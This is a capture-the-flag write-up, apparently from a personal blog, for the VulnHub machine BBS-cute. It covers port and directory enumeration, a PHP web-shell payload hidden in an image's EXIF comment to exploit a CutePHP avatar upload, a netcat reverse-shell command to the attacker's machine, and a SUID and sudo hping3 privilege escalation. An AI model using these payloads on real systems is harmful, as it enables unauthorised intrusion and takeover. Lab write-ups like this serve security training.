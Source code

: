 ```yaml
---
title: WRITE-UP PHOTOGRAPHER
date: 2024-07-26 16:59:59 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-up BBS-cute

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```

![alt text](/assets/img/BBS_cute/bbs_cute_netdiscover.png)
 
ip is :> ``` 192.168.137.112 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.112
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/BBS_cute/bbs_cute_nmap.png)

* 22 is ssh
* 995-110 is mail
* 80 is http apache httpd
* 88 is http nginx

so i used dirsearch to check subfolder of this site and i used default command

```
dirsearch -u http://192.168.137.112 -e 403,404
dirsearch -u http://192.168.137.112:88 -e 403,404
```

port 88 don't have anything i see in port 80 using 
```CutePHP 2.1.2 ```

![alt text](/assets/img/BBS_cute/bbs_cute_dirsearch.png)


i check 110-995 and they don't have information for me to take some thing
## 2. Post Exploitation
so i decided register to take a acount
  
![alt text](/assets/img/BBS_cute/bbs_cute_login.png)

after insite have update account permit me can upload avatar and i used polygot trick add code in command file image because it's receive magic header so i can't upload shell in normal

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' /home/kali/Desktop/cat.jpeg
```

after that's we get ``` www-data ``` baby :v

![alt text](/assets/img/BBS_cute/bbs_cute_www-data.png)

## 3. Privilage Escalation

I always spawn a shell in terminal :> Because i OCD :D
```
nc -e /bin/sh 192.168.137.107 3008
```

![alt text](/assets/img/BBS_cute/bbs_cute_shell.png)

after check i can see user ```fox``` and flag :v and i think i need to check folder ``` maildir ```

![alt text](/assets/img/BBS_cute/bbs_cute_userflag.png)

but after check maildir i can't see anythings so i decided watch ```suid ```

```
find / -perm -4000 2>/dev/null
```

![alt text](/assets/img/BBS_cute/bbs_cute_suid.png)

i will check it with ```gtfobin``` with ```hping3``` but i can't go to root

i will use ``` sudo -l ``` to what ```NO PASSWD: ``` Trick :> maybe good or not :V

![alt text](/assets/img/BBS_cute/bbs_cute_sudo-l.png)

Still ```hping3``` :D (vietnam quote) :v van de ki nang roi chu deo phai do de do may ngu day

![alt text](/assets/img/BBS_cute/bbs_cute_root.png)

after stuck i missed syntax my bad for all 

but i still root :< waste more time i think 

## GG -_-
